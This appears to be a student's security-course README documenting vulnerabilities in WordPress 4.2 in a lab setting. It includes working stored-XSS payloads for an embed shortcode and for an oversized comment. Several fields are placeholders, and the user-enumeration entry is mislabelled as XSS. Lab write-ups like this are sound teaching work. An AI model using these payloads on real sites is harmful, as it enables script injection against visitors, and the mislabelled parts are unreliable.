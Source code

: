 ## Unit 7 & 8 Project: WordPress vs. Kali

**Homework Instructions**:

Time spent: **48** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPres

### 1. (Required) Youtube Embedded Cross-Site Scripting

- [ ] Summary: 
- Vulnerability types: XSS
- Tested in version: 4.2
- Fixed in version: 4.7.3
- [ ] GIF Walkthrough: <img src="2022-10-28-12-50-39.gif">
- [ ] Steps to recreate: 
- Create a post with the following text: [embed src='http://www.youtube.com/embed/sss\x3csvg onload=alert(1)\x3e'][/embed]
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
  
### 2. (Required) Comment Cross-Site Scripting

- [ ] Summary: 
- Vulnerability types: XSS
- Tested in version: 4.2
- Fixed in version: 4.7.3
- [ ] GIF Walkthrough: <img src="Untitled design.gif">
- [ ] Steps to recreate: 
- Paste the following text in a comment: <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px AAAAAAAAAAAA...[64 kb]..AAA'></a> 
- Make sure the character length is 64kb or more.
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

### 3. (Required) User Enumeration

- [ ] Summary: 
Vulnerability types: XSS
Tested in version: 4.2
Fixed in version: 4.7.3 
- [ ] GIF Walkthrough: <img src="2022-10-28-12-55-33.gif">
- [ ] Steps to recreate: 
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
